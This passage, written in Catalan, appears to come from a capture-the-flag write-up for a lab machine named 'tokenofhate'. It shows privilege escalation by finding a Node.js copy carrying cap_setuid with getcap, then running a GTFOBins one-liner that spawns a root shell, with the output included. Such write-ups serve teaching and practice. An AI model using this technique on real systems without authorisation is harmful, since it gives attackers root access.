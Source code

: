## Escalada de privilegis

Fem el tractament del terminal o introduïm la nostra clau pública SSH per treballar més còmodes al servidor.

Mirem els fitxers amb capabilites.

```bash
$ getcap -r /
getcap -r /
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/yournode cap_setuid=ep
```

Trobem un binari molt sospitós, `/usr/bin/yournode`, i comprovem que és una còpia de `nodejs`.

```bash
$ /usr/bin/yournode
Welcome to Node.js v18.19.0.
Type ".help" for more information.
> .exit
$ /usr/bin/yournode --version
v18.19.0
```

Cerquem a `gtfobins` una manera d’escalar amb el binari `node` i capabilites, i la trobem.

![alt text](../../../assets/images/token-of-hate/image-17.png)

Executem la següent comanda per aconseguir privilegis de root.

```bash
ctesias@tokenofhate:~$ /usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# id
uid=0(root) gid=1000(ctesias) grupos=1000(ctesias),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
# 
```

